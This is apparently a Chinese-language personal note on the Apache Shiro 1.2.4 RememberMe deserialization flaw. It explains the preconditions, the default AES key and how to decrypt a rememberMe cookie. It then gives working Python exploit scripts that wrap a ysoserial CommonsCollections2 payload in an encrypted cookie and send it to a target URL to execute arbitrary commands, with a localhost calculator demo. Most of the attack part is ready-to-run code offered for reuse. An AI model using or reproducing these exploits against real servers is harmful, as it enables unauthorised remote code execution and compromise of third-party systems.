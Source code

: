 # Spring-Shiro远程命令执行简单总结
## 先上参考连接
- [【漏洞分析】Shiro RememberMe 1.2.4 反序列化导致的命令执行漏洞](https://cloud.tencent.com/developer/article/1078421)
- [Apache Shiro Java反序列化漏洞分析](https://www.cnblogs.com/loong-hon/p/10619616.html)

## 简介 （原文）
Apache Shiro是一个功能强大且易于使用的Java安全框架，可执行身份验证，授权，加密和会话管理。借助Shiro易于理解的API，您可以快速轻松地保护任何应用程序 - 从最小的移动应用程序到最大的Web和企业应用程序。

## 漏洞产生的条件
- AES密钥泄露,并且确认AES mode是CBC（好像基本都是）
- 启用rememberMe
- 版本符合

## AES密钥泄露
- 源码的CookieRememberMeManager的父类AbstractRememberMeManager的DEFAULT_CIPHER_KEY_BYTES
- 还可能存在web中的\WEB-INF\classes\spring-shiro.xml中的

## rememberMe cookie
> 首先登录的时候点击rememberMe就会产生一个remember的cookie（好绕嘴啊），然后将这个cookie base64解密，然后用AES密钥解密，解密脚本如下：
```
#!/usr/bin/env python
# coding=utf-8
import sys
import base64
from Crypto.Cipher import AES
def decode_rememberme_file(filename):
    with open(filename, 'rb') as fpr:
        key  =  "kPH+bIxk5D2deZiIxcaaaA=="
        mode =  AES.MODE_CBC
        IV   = b' ' * 16
        encryptor = AES.new(base64.b64decode(key), mode, IV=IV)
        remember_bin = encryptor.decrypt(fpr.read())
    return remember_bin
if __name__ == '__main__':
    print sys.argv[1]
    with open("/tmp/decrypt.bin", 'wb+') as fpw:
        fpw.write(decode_rememberme_file(sys.argv[1]))
```
将cookie中rememberMe的内容存一个文件，然后命令行参数指向这个文件就行了，最后会存一个/tmp/decrypt.bin的文件，可以使用`hexdump -C /tmp/decrypt.bin`然后第二行就会看到一个Java反序列化的标志`ac ed 00 05`然后反过来，利用这个AES密钥生成一个攻击的反序列化序列（ysoserial）就可以执行我们的代码了。


# 然后记录两个exp
这个和commons-collections的版本有关，上面博客园的博客有提到，我就不重复了，反正就是如果命令执行失败了，要考虑这种情况
```
import sys  
import base64  
import uuid  
from random import Random  
import subprocess  
from Crypto.Cipher import AES

def encode_rememberme(command):  
   popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.5-SNAPSHOT-all.jar', 'CommonsCollections2', command], stdout=subprocess.PIPE)
   BS   = AES.block_size
   pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
   key  =  "kPH+bIxk5D2deZiIxcaaaA=="
   mode =  AES.MODE_CBC
   iv   =  uuid.uuid4().bytes
   encryptor = AES.new(base64.b64decode(key), mode, iv)
   file_body = pad(popen.stdout.read())
   base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
   return base64_ciphertext

if __name__ == '__main__':  
   payload = encode_rememberme(sys.argv[1])    
   with open("/tmp/payload.cookie", "w") as fpw:
       print("rememberMe={}".format(payload.decode()), file=fpw)
```
commons-collections 4.0
```
import os
import re
import base64
import uuid
import subprocess
import requests
from Crypto.Cipher import AES

JAR_FILE = '/Users/Viarus/Downloads/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar'


def poc(url, rce_command):
    if '://' not in url:
        target = 'https://%s' % url if ':443' in url else 'http://%s' % url
    else:
        target = url
    try:
        payload = generator(rce_command, JAR_FILE)  # 生成payload
        r = requests.get(target, cookies={'rememberMe': payload.decode()}, timeout=10)  # 发送验证请求
        print r.text
    except Exception, e:
        pass
    return False


def generator(command, fp):
    if not os.path.exists(fp):
        raise Exception('jar file not found!')
    popen = subprocess.Popen(['java', '-jar', fp, 'CommonsCollections2', command],
                             stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    mode = AES.MODE_CBC
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
    poc('http://127.0.0.1:8080', 'open /Applications/Calculator.app')
```